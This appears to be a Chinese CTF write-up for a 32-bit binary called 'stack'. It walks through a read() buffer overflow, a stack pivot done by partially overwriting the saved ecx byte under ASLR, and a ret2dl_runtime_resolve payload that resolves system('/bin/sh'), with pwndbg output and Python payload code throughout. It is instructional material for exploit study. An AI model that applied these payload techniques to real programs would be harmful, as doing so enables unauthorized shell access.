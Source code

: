 # Stack

## 漏洞分析
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+4h] [ebp-14h]

  read(0, &gift, 0x14u);
  read(0, &buf, 0x14u);
  return 0;
}
```
 - 程序中只有俩`read()`
 - 第一个读`0x14`字节到`gift`(堆中)
 - 第二个读`0x14`字节到`buf`(栈中)
 - 第二个`read`存在缓冲区溢出

## 思路
 - 只有`read`无法leak libc -> `ret2dl_runtime_resolve`
 - 栈太小，需要栈迁移 -> 调用`read(0,new_stack,len)`布置新的栈空间

## 栈迁移

```
   0x8048430 <main+37>:	sub    esp,0x4
   0x8048433 <main+40>:	push   0x14
   0x8048435 <main+42>:	lea    eax,[ebp-0x14]
   0x8048438 <main+45>:	push   eax
   0x8048439 <main+46>:	push   0x0
   0x804843b <main+48>:	call   0x80482e0 <read@plt>
   0x8048440 <main+53>:	add    esp,0x10
   0x8048443 <main+56>:	mov    eax,0x0
   0x8048448 <main+61>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x804844b <main+64>:	leave  
=> 0x804844c <main+65>:	lea    esp,[ecx-0x4]
   0x804844f <main+68>:	ret 

# sned: AAAAAAAABBBBBBBBCCCC

pwndbg> x/xw $ecx
0x43434343:	Cannot access memory at address 0x43434343
```

- `mov ecx,DWORD PTR [ebp-0x4]`: `buf+16`的值赋给`ecx`
 - `lea esp,[ecx-0x4]`: 可以控制`esp`,完成栈迁移
 - 即：`buf+16 = new_stack+4`
 - 由于没有可以利用的输出函数，无法泄漏栈地址，只好尝试把栈转移到堆中，可以控制的堆只有`gift`
 - 于是尝试控制`esp`到`gift`,但是可控空间只有`20`字节，需要扩展一下
 - 尝试调用`read`读更多的字节到堆中，但是由于`gift`上面挨着`plt`表

```
pwndbg> x/24xw 0x804a000
0x804a000:	0x08049f14	0xf7ffd950	0xf7fe9780	0xf7ebe7e0
0x804a010 <__libc_start_main@got.plt>:	0xf7def660	0x00000000	0x00000000	0x00000000
0x804a020 <gift>:	0x61616161	0x0000000a	0x00000000	0x00000000
0x804a030 <gift+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000

pwndbg> vmmap
 0x8049000  0x804a000 r--p     1000 0      /home/taqini/Desktop/ctf/京津冀2019线下/stack
 0x804a000  0x804b000 rw-p     1000 1000   /home/taqini/Desktop/ctf/京津冀2019线下/stack
```

 - `plt`表以上的空间就不可写了，不符合栈可写的特点，因此无法实现正常的栈操作，调用`read`时会失败
 - 于是放弃了这个`gift`

 - 也就是说，`read`只能在可控的栈内执行，目前可控的区域只有`gift`和`buf`，`gift`不行，就只有`buf`了
 - 先看一下程序正常运行时的栈分布

```
pwndbg> r
Starting program: /home/taqini/Desktop/ctf/京津冀2019线下/stack 
AAAA
AAAAAAAABBBBBBBB
Breakpoint 1, 0x0804844c in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────[ REGISTERS ]──────────────────────────────────────
 EAX  0x0
 EBX  0x0
 ECX  0xffffcd10 ◂— 0x1
 EDX  0x14
 EDI  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1dbd6c
 ESI  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1dbd6c
 EBP  0x0
 ESP  0xffffccfc —▸ 0xf7def751 (__libc_start_main+241) ◂— add    esp, 0x10
 EIP  0x804844c (main+65) ◂— 0xc3fc618d
───────────────────────────────────────[ DISASM ]───────────────────────────────────────
 ► 0x804844c  <main+65>                  lea    esp, [ecx - 4]
   0x804844f  <main+68>                  ret    
    ↓
   0xf7def751 <__libc_start_main+241>    add    esp, 0x10
   0xf7def754 <__libc_start_main+244>    sub    esp, 0xc
   0xf7def757 <__libc_start_main+247>    push   eax
   0xf7def758 <__libc_start_main+248>    call   exit <0xf7e06a30>
 
   0xf7def75d <__libc_start_main+253>    push   esi
   0xf7def75e <__libc_start_main+254>    push   esi
   0xf7def75f <__libc_start_main+255>    mov    ecx, dword ptr [esp + 0x70]
   0xf7def763 <__libc_start_main+259>    push   dword ptr [ecx]
   0xf7def765 <__libc_start_main+261>    mov    ecx, dword ptr [esp + 0x14]
───────────────────────────────────────[ STACK ]────────────────────────────────────────
00:0000│ esp  0xffffccfc —▸ 0xf7def751 (__libc_start_main+241) ◂— add    esp, 0x10
01:0004│      0xffffcd00 —▸ 0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1dbd6c
... ↓
03:000c│      0xffffcd08 ◂— 0x0
04:0010│      0xffffcd0c —▸ 0xf7def751 (__libc_start_main+241) ◂— add    esp, 0x10
05:0014│ ecx  0xffffcd10 ◂— 0x1
06:0018│      0xffffcd14 —▸ 0xffffcda4 —▸ 0xffffcfa6 ◂— 0x6d6f682f ('/hom')
07:001c│      0xffffcd18 —▸ 0xffffcdac —▸ 0xffffcfd9 ◂— 'SSH_AUTH_SOCK=/run/user/1000/keyring/ssh'
─────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────
 ► f 0  804844c main+65
   f 1 f7def751 __libc_start_main+241
────────────────────────────────────────────────────────────────────────────────────────
Breakpoint *0x804844c

pwndbg> x/xw $ecx-4
0xffffcd0c:	0xf7def751

pwndbg> search AAAAAAAA
[stack]         0xffffcce4 0x41414141 ('AAAA')

pwndbg> x/24xw 0xffffcce4
0xffffcce4:	0x41414141	0x41414141	0x42424242	0x42424242
0xffffccf4:	0xffffcd10	0x00000000	0xf7def751	0xf7fad000
0xffffcd04:	0xf7fad000	0x00000000	0xf7def751	0x00000001
0xffffcd14:	0xffffcda4	0xffffcdac	0xffffcd34	0x00000001
0xffffcd24:	0x00000000	0xf7fad000	0xffffffff	0xf7ffd000
0xffffcd34:	0x00000000	0xf7fad000	0xf7fad000	0x00000000
```

 - `buf`首地址：`0xffffcce4`
 - `buf+16`保存`ecx`的值: `0xffffcd10`
 - `0xffffcd10-0xffffcce4=44` 
 - 由于开了ASLR保护机制，栈基址每次都变化，但是`buf`首地址和`buf+16`处的`ecx`的值的相对位置固定，相差`44`
 - 于是可以只覆盖`buf+16`位置的保存的`ecx`的值末位，构造出栈地址，先想办法把栈迁移到`buf`中

```python
    buf = p32(read_plt) + p32(main) + p32(0) + p32(base_stage) + '\x78'
```

 - 这里由于开了`ASLR`，`buf`的地址每次都变:
 - 比如当`buf`首地址为`0xffffcd74`时，`ecx=buf+44=0xffffcda0`，`buf`和`ecx`只有末位字节不同，这时候只要覆盖`buf+16处的ecx`末位为`0x78`
 - 在`lea esp,[ecx-0x4]`执行后，即可控制`esp`到`buf`执行`read`函数
 - 这时实际的`rop`链为：

```python
    buf = p32(read_plt) + p32(main) + p32(0) + p32(base_stage) + p32(0xffffcd78) # <- 0xffffcd78 为构造的栈地址，同时充当read的第三个参数
```

 - 执行的函数为`read(0,base_stage,0xffffcd78)`
 - `base_stage`位于`bss`段

## `ret2dl_runtime_resolve`
 - 参考这里: http://pwn4.fun/2016/11/09/Return-to-dl-resolve/
 - 构造payload:

```
    cmd = '/bin/sh'
    plt_0 = 0x080482d0
    rel_plt = 0x08048298
    index_offset = base_stage+28 - rel_plt
    read_got = elf.got['read']
    dynsym = 0x080481cc
    dynstr = 0x0804821c
    fake_sym_addr = base_stage + 36
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (fake_sym_addr - dynsym) / 0x10
    r_info = (index_dynsym << 8) | 0x7
    fake_reloc = p32(read_got) + p32(r_info)
    st_name = (fake_sym_addr + 0x10) - dynstr
    fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

    pl3 = 'AAAA'
    pl3 += p32(plt_0)
    pl3 += p32(index_offset)
    pl3 += 'AAAA'
    pl3 += p32(base_stage + 80)
    pl3 += 'aaaa'
    pl3 += 'aaaa'
    pl3 += fake_reloc # (base_stage+28)
    pl3 += 'B' * align
    pl3 += fake_sym # (base_stage+36)
    pl3 += "system\x00"
    pl3 += 'A' * (80 - len(pl3))
    pl3 += cmd + '\x00'
    pl3 += 'A' * (100 - len(pl3))
```

- 然后把控制栈，迁移到`base_stage+4`即可getshell

```
    # rop2
    sleep(1)

    se('a'*0x14)
    pl4 = p32(0xdeadbeef)*4 + p32(base_stage+4+4)

    se(pl4)

```

